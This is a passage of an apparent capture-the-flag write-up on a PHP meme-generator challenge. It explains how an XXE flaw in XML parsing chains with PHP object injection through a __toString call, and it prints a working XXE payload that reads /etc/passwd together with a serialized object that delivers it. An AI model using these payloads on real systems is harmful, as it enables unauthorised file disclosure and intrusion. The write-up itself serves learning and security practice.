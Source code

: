 ```
          $contents = file_get_contents($this->path);
          $meme = "  " . strtoupper($top_text) . "\n\n" . $contents . "\n  " . strtoupper($bottom_text);
          $meme_path = MEMES_FOLDER . $filename . ".txt";
          file_put_contents($meme_path, $meme);
        }
      }

      return $meme_path;
    }

    function __toString() {
      $this->parse();
      $debug = "";
      $debug .= "Debug Info :\n";
      $debug .= "TopText => {$this->top_text}\n";
      $debug .= "BottomText => {$this->bottom_text}\n";
      $debug .= "Template Location => {$this->template}\n";
      $debug .= "Template Type => {$this->type}\n";
      return $debug;
    }
  }
```

The `parse()` function was was parsing the xml entities with the desired elements(toptext, bottomtext, type, template). which makes it vulnerable to XXE. But till now we don't have any direct way to exploit XXE. The attack was intended to chain with each other. but to exploit the php object injection the magic method `__toString()` needs to be called because only `__wakup()` gets called when unserialize is used but here no wakeup method so. But I investigated the code and found a way where `__toString()` is called there is a loop is meme.php when the session is getting echoed there our uploaded file gets echoed too.


### XML Payload :
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>
	<toptext>&xxe;</toptext>
	<bottomtext>xd</bottomtext>
	<template></template>
	<type>text</type>
</root>
```
### Serialised payload (base64 Decoded): 
```
O:10:"ConfigFile":1:{s:10:"config_raw";s:170:"<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>
	<toptext>&xxe;</toptext>
	<bottomtext>xd</bottomtext>
	<template></template>
	<type>text</type>
</root>";}
```
